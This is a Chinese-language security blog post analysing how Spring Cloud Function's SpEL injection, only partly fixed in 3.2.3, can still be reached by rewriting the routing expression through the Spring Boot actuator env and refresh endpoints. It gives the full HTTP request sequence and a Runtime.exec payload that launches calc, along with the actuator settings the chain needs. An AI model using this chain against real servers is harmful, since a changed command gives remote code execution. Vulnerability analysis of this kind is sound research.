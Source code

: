 ```yaml
---
title: 基于actuator的 Spring Cloud Function RCE 利用技巧
commentable: false
Edit: 2022-05-01
mathjax: true
mermaid: true
tags: 漏洞分析
categories: 渗透测试
description: 如何通过actuator 在最新版本进行表达式注入
---
```


# 背景

3月份的时候互联网上披露了Spring Cloud Function SPEL表达式注入漏洞，也就是Spring Cloud Function  从3.0.0.RELEASE 到3.2版本都存在一个表达式注入漏洞，这个漏洞也随后
在3.2.3版本被官方修复。既然我们无法通过Header注入，那么能否有其它办法改变spring.cloud.function.routing-expression的值从而执行代码呢？

# 代码改动

Spring Coud Function 官方在3.2.3版本修复了之前的commit为dc5128b 的SPEL注入漏洞，具体代码改动

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/87bdc90e.png)

可以看到重载了functionFromExpression方法，通过判断isViaHeader执行不同的处理过程，如果为真，就用SimpleEvaluationContext处理header 里面的输入，否则才用StandardEvaluationContext 处理。

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/517efb5c.png)

在取Header头中的spring.cloud.function.routing-expression 是调用了functionFromExpression(StringroutingExpression, Objectinput, booleanisViaHeader)，但是从配置文件中取这个字段的时候还是调用的functionFromExpression(StringroutingExpression, Objectinput)这个方法就是造成SPEL解析命令执行漏洞的关键。

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/1dd2a033.png)

因此理论上只要能够控制functionProperties.getRoutingExpression() 的值应该也能够触发这个漏洞。
进一步看下functionProperties类中的getRoutingExpression()方法

# 控制 functionProperties#getRoutingExpression()的取值

![](../assets/Spring Cloud Function 漏洞分析_images/83163e60.png)

跟进到FunctionProperties这个类，它通过@ConfigurationProperties(prefix = FunctionProperties.PREFIX) 注解绑定相应的外部配置参数的值，因此getRoutingExpression()方法就能够获取到
application.properties(yaml)中对应的”spring.cloud.function.routingExpression“的值。

因此如果更改了配置文件参数如下，则同样能够触发SPEL注入漏洞。
```jsregexp
spring.cloud.function.definition=functionRouter
spring.cloud.function.routingExpression=T(java.lang.Runtime).getRuntime().exec("calc")
```

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/be23d750.png)

# 借助 actuator 修改环境变量

当然像上面的这种修改配置文件能够导致命令执行严格意义上并不能算是Spring-cloud-function的漏洞，因为配置文件是开发可以控制的，即非默认配置。
那么在实战中如何来控制配置文件信息呢？想到Spring Boot actuator 的 env 端点是能够更改环境变量属性信息的。

- 1.请求/env端点，写入配置

```jsregexp
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Content-Type: application/json
Content-Length: 109

{"name":"spring.cloud.function.routingExpression","value":"T(java.lang.Runtime).getRuntime().exec('calc')"}
```

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/486ebf69.png)

- 2.请求/refresh端点，刷新配置生效
```jsregexp
POST /actuator/refresh HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
```

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/2c635085.png)

- 3.最后通过请求/functionRouter 路由执行routingExpression 表达式

```jsregexp
POST /functionRouter/qqq HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0

aaa
```

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/8d1eecc3.png)

# tips
actuator 2.x 需要将env 和refresh 端点暴露出来，还有就是env 端点可写的特性是在Spring Cloud才具有的。

```
management.endpoint.refresh.enabled=true
management.endpoint.env.post.enabled=true
management.endpoints.web.exposure.include=env,restart,refresh
```

另外如果遇到了“POST /actuator/env returns 405 method not allowed”，表示env 端点不允许POST提交数据。这个是因为Spring Cloud 在Hoxton.SR3版本已经将env 端点的可写性做了一些改变（https://github.com/spring-projects/spring-boot/issues/20509），需要改成：

```
management.endpoint.refresh.enabled=true
management.endpoint.env.post.enabled=true
management.endpoints.web.exposure.include=env,restart,refresh
```
